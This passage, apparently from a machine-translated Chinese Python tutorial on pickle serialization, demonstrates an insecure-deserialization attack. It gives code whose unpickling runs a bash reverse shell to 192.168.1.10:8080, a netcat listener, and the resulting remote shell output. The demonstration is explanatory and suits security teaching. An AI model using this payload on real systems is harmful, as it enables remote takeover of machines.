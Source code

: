 ```py
        # The attack is from 192.168.1.10
        # The attacker is listening on port 8080
        os.system('/bin/bash -c
                  "/bin/bash -i >& /dev/tcp/192.168.1.10/8080 0>&1"')

user_foobar = foobar()
user_pickle = pickle.dumps( user_foobar )
user_unpickle = pickle.loads( user_pickle )

```

**示例-**

在上面的例子中，解除锁定的过程已经执行了 _setstate_()，它将执行一个 Bash 命令，打开端口 8080 上的 192.168.1.10 系统的远程 shell。

这就是用户如何在他们的苹果电脑或 Linux 盒子上安全地测试脚本。首先，他们必须打开终端，然后使用 nc 命令列出到端口 8080 的连接。

例如:

```py

$ nc -l 8080

```

这个终端是为攻击者准备的。

然后，用户必须在同一计算机系统上打开另一个终端，并执行 python 代码来拆封恶意代码。

用户必须确保他们必须将代码中的 IP 地址更改为攻击终端的 IP 地址。执行代码后，Shell 暴露给攻击者。

```py

remote.py

```

现在，攻击控制台上会出现一个 bash shell。这个控制台现在可以直接在被攻击的系统上操作。

例如:

```py

$ nc -l 8080

```

**输出:**

```py
bash: no job control in this shell

The default interactive shell is now zsh.
To update your account to use zsh, please run ` chsh -s /bin /zsh`.
For more details, please visit https://support.apple.com /kb /HT208060.
bash-3.1$

```

## 结论:

本文讨论了如何使用 python 的不同模块来序列化和反序列化对象，以及 `pickle`模块为什么比其他模块更好。我们还解释了一些物体是如何无法解开的，以及我们如何避免这些物体带来的问题。

* * *